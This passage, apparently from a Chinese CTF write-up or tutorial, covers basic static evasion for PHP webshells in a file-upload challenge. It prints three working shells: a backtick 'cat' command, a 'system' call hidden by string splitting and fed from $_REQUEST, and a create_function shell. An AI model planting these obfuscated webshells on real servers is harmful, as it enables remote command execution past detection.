 动态免杀需要先了解各个 Webshell 工具的流量等，还要再学习一段时间。

#### 基础免杀

一个文件上传题目，先 fuzz 一下，发现过滤了  
[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-daf8ee9e-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-daf8ee9e-864e-1.png)  
但是 ` 并没有被过滤掉，而且可以直接上传 PHP 文件，那就比较容易了，而且过滤了_POST 和_GET, 那就用_REQUEST 来代替

payload：

```
<?php echo `cat /var/www/html/*`;?>
```

上面也提到了静态免杀的好多种方法，不妨也试一下

**拆解合并：**

```
<?php
$ch = explode(".","as.sy.s.tem.t");
$c = $ch[1].$ch[2].$ch[3]; //system
$c($_REQUEST['x']);
?>
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-db1b2fcc-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-db1b2fcc-864e-1.png)  
**利用函数：**

```
<?php 
$a = create_function('',$_REQUEST['a']);
$a();
?>
```

[![](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-db45372c-864e-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20210316195800-db45372c-864e-1.png)  
除此之外，还有很多方法，这里就不再进行一一列举了。

[https://saucer-man.com/information_security/248.html#cl-2](https://saucer-man.com/information_security/248.html#cl-2)  
[https://blog.csdn.net/qq_38741963/article/details/90199822](https://blog.csdn.net/qq_38741963/article/details/90199822)  
[https://www.freebuf.com/column/205995.html](https://www.freebuf.com/column/205995.html)  
[https://www.freebuf.com/articles/web/183520.html](https://www.freebuf.com/articles/web/183520.html)  
[https://www.o2oxy.cn/2166.html](https://www.o2oxy.cn/2166.html)